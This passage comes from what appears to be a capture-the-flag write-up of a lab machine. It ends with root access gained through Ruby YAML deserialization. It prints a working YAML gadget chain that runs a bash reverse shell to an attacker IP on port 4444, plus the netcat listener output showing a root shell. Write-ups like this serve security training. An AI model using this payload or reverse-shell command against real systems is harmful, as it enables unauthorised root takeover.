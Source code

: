 ```
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)

henry@precious:~$ cat /tmp/rce9b.txt
Sun 27 Nov 2022 09:27:26 AM EST
```

I was able to execute some random code as root. I tried copying my public key in root's `.ssh`. It seemed to work, but I was not able to SSH as root. So I modified the YAML file to open a reverse shell to my machine.

```yaml
:payload:
- !ruby/class 'Gem::SpecFetcher'
- !ruby/class 'Gem::Installer'
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO
      io: !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: aaa
      debug_output: !ruby/object:Net::WriteAdapter
        socket: !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: bash -c 'bash  -i >& /dev/tcp/10.10.14.100/4444 0>&1 '
        method_id: :resolve

```

I ran the script again and I was root.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.100] from (UNKNOWN) [10.129.77.89] 38374
root@precious:/home/henry# cd
cd

root@precious:~# cat root.txt
cat root.txt
REDACTED
```
